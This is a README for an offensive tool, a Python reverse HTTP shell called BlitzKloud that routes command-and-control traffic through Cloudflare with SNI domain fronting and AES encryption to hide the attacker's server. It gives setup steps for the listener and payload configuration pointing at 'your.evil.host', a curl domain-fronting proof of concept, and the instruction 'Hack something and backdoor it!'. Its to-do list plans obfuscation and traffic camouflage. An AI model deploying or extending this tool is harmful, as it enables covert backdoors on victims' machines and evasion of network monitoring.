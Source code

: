 # BlitzKloud
==================

<p> A Cloudflare compatible, SNI/domain fronting compliant Reverse HTTP Shell with built in 
AES encryption. Written in Python3, with dependencies minimized.  </p>
<br>

<p><i> Darkerego 2019 ~ xelectron@protonmail.com ~ https://github.com/darkerego</i></p>


#### Concept



<p>Blitzkloud is a Cloudflare compatible reverse HTTP shell, with SNI 
domain fronting functionality. Because this shell does not yet support HTTPS, 
(and even if it did, remember, Cloudflare is giant MITM honeypot), the shell 
also has built in support for AES encryption (no external libaries needed for payload
because I imported functionality from pyaes directly into the paylaod!). 
The goal was to create a pure python3- powered reverse shell with miminal, (eventually no) 
outside dependencies (for portability), which allows the user to conceal the location of his or her
server (where we catch the shell), by both proxying through cloudflare, and hiding DNS 
requests to the destination server employing domain fronting tactics via SNI (server
name indication).
</p>

<p>
This functionality allows an attacker to hide their c&c server's ip and (to some extent) 
 domain, proxying commands and output through Cloudflare's global CDN, thus not revealing 
the IP address of your server. The shell also provides some obfuscation 
by exploiting Cloudflare's SNI bug/|feature domain fronting capabilities -- 
anyone monitoring DNS requests alone will not see the actual URL of your server:
</p>


<p><b>SNI Proof of Concept:</b></p>
<pre>
 $ curl -H "Host: your.remote.host" http://upwork.com
</pre>
[domain-front.png](https://postimg.cc/V0mqNQgV)
<p>
For more details on SNI and domain fronting, see:
https://en.wikipedia.org/wiki/Domain_fronting
</p>
 
#### Usage

Requirements:

- VPS Server
- Cloudflare account
- Domain name (set up to use Cloudflare's CDN.)
- Human with an intelligence quota at least 120

<b>Setup & Configuration: </b>

<p>First, you will need an HTTP server that is on Cloudflare's network. Purchase a cheap VPS, we 
do not need anything fancy to run this. You can get one from Digital Ocean for $5 per month. Next, 
you will need a free account with Cloudflare. Finally, you need a domain name. </p>

<p>
Configure your DNS to use Cloudflare's network. Next, install the listener on your server:

<pre>
$ git clone https://github.com/darkerego/blitzcloud
$ cd blitzcloud
$ pip3 install --user -r requirements.txt
</pre>

<p>
Test to make sure that the listener runs and has been installed correctly:
</p>

<pre>
$ python3 ./srv.py
Starting httpd on ('0.0.0.0', 8880):8880...
</pre>

<p>Note: Cloudflare can proxy HTTP traffic on several different ports including 80, 8080, and 8800.</p>

<p>
Next, configure the server and payload. First, choose a key to encrypt all traffic with using the
built in AES libary. Key length must be a multiple of 16, and the key must be in byte format. 
Edit this line and choose a secure key:
</p>

<pre>
key = b"This_key_for_demo_purposes_only!"
</pre>

<p>This is the only thing that needs to be set in the server.py, however in the payload.py file, the 
following variables must be set:</p>

<pre>
debug = False  # Display errors and output (for debugging)
front_url = 'your.evil.host'  # your c&c server: example: developer.attacker.com
url = 'http://mediafire.com:8880'  # example: http://upwork.com:8880 - (include port of listener if not port 80 (http)
key = b"This_key_for_demo_purposes_only!"  # AES Encryption key - keep private, must be in byte form.
</pre>

<p>
Now, the rest is up to you. Hack something and backdoor it! Because this is Python, it is 
virtually platform agnostic -- in other words, if the target system can run Python3, it can 
run this payload as well.
</p>

TODO: 

- Figure out, is domain fronting over HTTPS still possible? If yes, implement
- Consider sending output back as a cookie with a get request instead a post
- Better discussing of payloads - (make traffic look as innocuous as possible)
- Implement command history in shell , OR
- Implement a full PTY over HTTP shell
- Options for packing, obfuscation, compilation
- More details in the README about how this all works
- Port backwards so payload is Python2 compatible
- Eliminate dependencies (like requests), rewrite using raw sockets
  
